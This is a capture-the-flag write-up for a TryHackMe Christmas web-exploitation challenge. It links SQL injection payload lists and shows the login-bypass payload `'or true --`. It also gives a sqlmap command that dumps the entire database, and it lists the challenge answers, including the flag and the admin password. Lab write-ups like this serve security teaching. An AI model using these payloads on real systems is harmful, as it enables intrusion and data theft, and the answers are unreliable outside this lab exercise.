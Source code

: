 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2840%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%284%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2825%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2836%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2812%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2829%29.png)

![](../.gitbook/assets/image%20%288%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2816%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2837%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%281%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

